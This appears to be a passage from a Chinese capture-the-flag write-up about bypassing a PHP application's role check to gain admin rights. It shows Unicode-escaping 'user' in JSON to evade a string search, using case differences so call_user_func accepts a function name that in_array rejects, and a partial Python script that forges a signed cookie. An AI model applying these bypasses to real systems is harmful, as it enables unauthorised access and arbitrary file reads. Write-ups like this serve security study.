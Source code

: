 目标很明确，绕过限制得到admin权限，想了半天，看懂代码。发现有个很奇怪的地方：  

	$s = json_decode($h2, true);
	$s['role'] = strval($s['role']);
    if($s['role'] == 'admin') {//没有判断是否为user
        return false;
    }      

这里就可以想象到可以使用json什么手段，绕过前面的检测。寻寻觅觅，发现json支持unicode编码，测试如下：  

	$user_json = "\"\\u0075\\u0073\\u0065\\u0072\"";//user 的utf-8编码  
	var_dump(json_decode($user_json));
	
	var_dump(strpos($admin_json,"user"));

程序输出：  

	string 'user' (length=4)

	boolean false


## 0x02 大小写绕过函数调用   

得到user权限后，还要绕过这么一句话：  

	if(in_array($action, $config['role']['admin']) && $role != "admin")   


这样才能调用`read`函数读取任意文件，整理思路：  

	in_array函数是大小写敏感的。

进一步想到：  

	call_user_func是否也是大小写敏感？  

于是测试了下：  

	$action = "Fd_show_source";
	var_dump(call_user_func($action));    

bingo~成功调用并输出代码。    


于是就成功绕过限制得到admin权限了，具体代码请查看github，关键点代码如下：  

	def construct_cookie(s_key):

	    h2 = "{\"role\":\"\\u0075\\u0073\\u0065\\u0072\"}"
	
	    print h2
	
	    h1 = hash_mac_md5(h2,s_key)
	
	    print base64.b64encode(h1 + h2)
	    return base64.b64encode(h1 + h2)
	
	def get_output_sanbox():
	
	    php_session = "i3gb61avgs9a342mmp2mhiqm91";
	    #act = "get_defined_functions"
	    act = "fg_safebox"
	    #act = "phpinfo"
	    new_secret_key = "y5QRaZ"
	